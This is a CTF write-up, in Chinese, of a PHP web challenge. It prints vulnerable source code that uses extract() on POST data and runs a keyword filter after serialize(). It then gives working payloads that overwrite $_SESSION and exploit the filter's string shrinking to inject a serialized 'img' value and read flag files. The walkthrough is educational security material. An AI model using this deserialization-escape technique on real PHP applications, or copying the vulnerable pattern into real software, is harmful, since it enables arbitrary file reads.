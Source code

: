 # 知识点：

# 1.信息收集

# 2.extract()函数导致的变量覆盖 

### cgctf有类似的题目：

### https://blog.csdn.net/zz_Caleb/article/details/88671071

# 3.关键字过滤导致的任意序列化内容控制

类似[0CTF 2016]piapiapia



# 1.直接给出源码：

```javascript
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```



# 2.extract()函数存在变量覆盖，此处可以直接post _SESSION值，覆盖前面的session



# 3.观察源码，发现phpinfo有提示，查看phpinfo，发现flag所在位置

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/8544AC5ECA1A48D58FD968ABD5D05301clipboard.png)

现在所要做的就是读取d0g3_f1ag.php的内容



# 4.发现存在文件读取

```javascript
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```



但是需要unserialize之后，再base64解码才能读取到flag



# 5. 发现需要绕过的点：

当get img_path时，get的值会被sha加密，从而无法被解码。但是当不get image_path则img内容是固定的，不能读取flag

```javascript
if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));
```



# 6. 发现filter()函数，在serlialize之后，filter函数会过滤其中的非法字符

```javascript
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}
```



此时联想到[0CTF 2016]piapiapia的通过过滤非法字符来构造任意序列化数据



# 7.构造payload

```javascript
get: f=show_image
post: _SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}
```



# 8. payload解释：

## 8.1 f=show_image 让代码执行到反序列化

```javascript
else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```



## 8.2 _SESSION[user]=flagflagflagflagflagflag 

6个flag长度为24刚好等于后面function序列化的长度：

```javascript
";s:8:"function";s:59:"a    //24位，此时变成了user的内容
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/9C70C1998D1C44968F24C900AB089EF3clipboard.png)



## 8.3 a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";

ZDBnM19mMWFnLnBocA==为d0g3_f1ag.php的base64编码



## 8.4 s:2:"dd";s:1:"a"; 这是因为一开始就有三个数据，通过过滤之后只有两个数据，此时要添加一个保持完整



# 9. 发现flag，在d0g3_fllllllag，重新构造读取

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/4F227C76D25E4257A4B1492586C20229clipboard.png)

post:

```javascript
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";s:2:"dd";s:1:"a";}
```

